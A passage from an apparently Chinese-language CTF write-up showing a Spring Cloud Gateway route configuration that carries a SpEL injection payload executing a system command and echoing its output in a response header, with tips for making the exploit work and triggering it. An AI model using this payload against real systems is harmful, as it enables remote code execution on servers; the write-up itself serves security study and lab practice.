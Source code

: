 ```plain
spring:
  cloud:
    gateway:
      routes:
        - id: exam
          order: 0
          uri: lb://service-provider
          predicates:
            - Path=/echo/**
          filters:
            - name: AddResponseHeader
              args:
                name: result
                value: "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'id'}).getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
```

这里增加了一个filters字段，并写入POC，但这里需要注意的坑有两点：

1.  需要修改原POC，将字符串输入结果使用replace()将\\n以及\\r符号替换为空，否则会提示报错Header中不能包含该字符导致利用失败
2.  在YAML配置文件中，SpEL表达式必须要用双引号括起来，但POC原本就带有双引号，会导致识别冲突，所以将POC内所有的双引号改为单引号，外面在用双引号括起来

完成后对配置文件进行发布，然后尝试访问`http://127.0.0.1:8888/echo/123`，可以发现成功回显了命令执行的结果

**四、国赛Backend-service题目复现**

（所用的是ctfshow提供的环境，payload可能有些不同）

[![](assets/1700442594-1e4b393eef568a1bda1ae4f12ed813ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118155636-ff4817ac-85e7-1.png)
